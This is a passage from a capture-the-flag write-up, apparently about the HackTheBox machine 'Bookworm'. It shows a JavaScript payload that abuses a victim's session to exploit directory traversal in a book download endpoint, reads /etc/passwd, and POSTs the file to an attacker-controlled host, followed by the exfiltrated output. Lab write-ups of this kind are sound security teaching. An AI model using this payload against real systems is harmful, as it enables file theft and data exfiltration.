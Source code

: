 #### Directory Traversal

Thinking about how the server is working, likely these e-books are stored on the file system. It’s worth looking at the download requests to see if I can read other files off the file system.

Trying the single download doesn’t seem to work. I just get nothing back. I’ll look at this in [Beyond Root](#beyond-root). I’ll try this payload to do a directory traversal in the multi-file download:

```

fetch('/profile', {credentials: 'include'})
.then((resp) => resp.text())
.then((resptext) => {
  order_id = resptext.match(/\/order\/(\d+)/);
  fetch("http://bookworm.htb/download/"+order_id[1]+"?bookIds=1&bookIds=../../../../etc/passwd", {credentials: 'include'})
  .then((resp2) => resp2.blob())
  .then((data) => {
    fetch("http://10.10.14.6/exfil", { 
      method: "POST",
      mode: 'no-cors',
      body: data
    });
  });
});

```

When it returns, there’s a `Unknown.pdf` in the zip:

```

oxdf@hacky$ unzip -l exfil/exfil.zip 
Archive:  exfil/exfil.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
     1006  2023-01-30 19:51   Alice's Adventures in Wonderland.pdf
     2087  2023-06-05 20:53   Unknown.pdf
---------                     -------
     3093                     2 files

```

It’s not a PDF, but `/etc/passwd`:

```

oxdf@hacky$ cat exfil/Unknown.pdf 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
```